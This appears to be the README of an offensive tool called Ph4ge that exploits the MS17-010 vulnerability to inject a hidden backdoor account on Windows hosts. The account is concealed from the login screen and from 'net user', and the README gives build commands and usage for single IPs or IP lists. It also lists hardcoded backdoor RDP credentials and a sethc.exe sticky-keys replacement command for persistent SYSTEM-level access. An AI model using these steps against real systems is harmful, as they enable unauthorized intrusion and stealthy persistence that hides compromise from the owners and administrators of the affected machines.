







# Ph4ge

This is a remote desktop injection tool based on the *MS17-010* vulnerability, designed for targeting specific hosts:

1.Hidden backdoor account – the backdoor user is invisible to other users and does not appear on the log-out / user selection screen.
2.Invisible to net user – the backdoor account cannot be listed using the net user command.
3.Automated heap spraying and detection – improves exploit reliability and hit rate.
4.Automatic logging of successfully injected hosts – helps maintain stability on compromised systems and reduces the likelihood of crashes.


# Build

For Linux:
```
$ CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -trimpath -ldflags "-s -w" -o bin/ph4ge-linux-amd64 ./ph4ge.go`
```

For windows:
```
$ CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -trimpath -ldflags "-s -w" -o bin/ph4ge-windows-amd64.exe ./ph4ge.go
$ CGO_ENABLED=0 GOOS=windows GOARCH=386 go build -trimpath -ldflags "-s -w" -o bin/ph4ge-windows-amd32.exe ./ph4ge.go
```

# Usage





## Specify an IP Address

`$ ./pha4ge-linux-amd64 -ip '192.168.206.169'`



## Specify an IP List

```bash
# IP.txt
127.0.0.1
192.168.206.1
192.168.206.169
```

`$ ./pha4ge-linux-amd64 -ips ./IP.txt`



# RDP

`$ sudo apt install rdesktop`

`$ rdesktop -u '_SYSTEM_$' -p 'A9#fQ2!Z' -g 1920x1080 192.168.206.169`





# Shift Backdoor load

Run as Administrator:

`cd C:\Windows\System32\ && takeown /f .\sethc.exe && icacls .\sethc.exe /grant Administrators:F && move .\sethc.exe .\sethc.exe.bak && copy .\cmd.exe .\sethc.exe`




